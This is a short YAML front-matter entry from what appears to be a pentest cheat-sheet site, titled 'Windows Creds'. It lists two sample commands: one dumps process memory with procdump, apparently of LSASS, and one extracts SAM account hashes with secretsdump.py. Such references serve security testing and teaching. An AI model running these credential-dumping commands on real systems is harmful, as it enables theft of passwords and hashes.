 ```yaml
---
layout: post
title: "Windows Creds"
tags: ["SAM","LSASS","Secrets"]
os: ["Windows"]
code:
  - title: Dump hashes
    description:
    sample: .\procdump64.exe -accepteula -ma 580 out.dmp2
  - title: Crack offline SAM accounts
    sample: python secretsdump.py -system "systemfile" -sam "samfile"  LOCAL
---
```

